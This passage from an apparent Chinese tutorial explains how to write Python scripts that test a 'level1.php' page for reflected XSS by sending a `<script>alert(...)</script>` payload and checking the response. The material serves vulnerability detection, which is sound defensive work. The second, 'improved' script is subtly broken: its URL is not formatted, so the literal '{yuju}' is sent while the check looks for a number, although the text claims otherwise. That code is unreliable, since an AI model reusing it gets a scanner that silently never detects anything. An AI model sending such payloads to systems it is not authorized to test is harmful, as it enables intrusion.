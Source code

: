 如上，在一些JS的注释中，如果只检测这些的话，很容易存在误报，只有将完整的payload都匹配上才可，这时的思路是：响应体中存在`<script>alert(1)</script>`，也就是连着标签一起检测

为了脚本的准确性，其实还应该在三方面考虑脚本的写法，例如根据响应头，响应行，响应体三方面来判断，那么此时的脚本示例就是：

```python
import requests
headers = {
	"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
}
url = target.strip("/") + "/level1.php?name=%3Cscript%3Ealert(1)%3C/script%3E"
req = requests.get(url, headers=headers, timeout=10)
if req.status_code == 200 and "<script>alert(1)</script>" in req.text:
	print("漏洞存在")
```

那么再看看长亭的xray脚本，可以发现他们有在使用随机数，使用随机数的优势在于，我们可以通过这种手段，适当的减少误报

使用随机数的话，又涉及到了两个其他的库:`random`和`hashlib`

使用上述两个库，优化一下脚本：

```python
import requests,random
yuju = str(random.randint(0, 999999))
target = ""
url = target.strip("/") + "/level1.php?name=%3Cscript%3Ealert({yuju})%3C/script%3E"
req = requests.get(url)
if req.status_code == 200 and "<script>alert({})</script>".format(yuju) in req.text:
    print("漏洞存在")
```

在上述脚本中，假设随机数为9999，那么脚本发送了`name=%3Cscript%3Ealert(9999)%3C/script%3E`，大意即为发送一个随机数到服务器，如果响应码为200，且响应体中也有`<script>alert(9999)</script>`存在，那么漏洞存在

当浏览器在访问一些页面时，可能会遇到如图情况：&#x20;
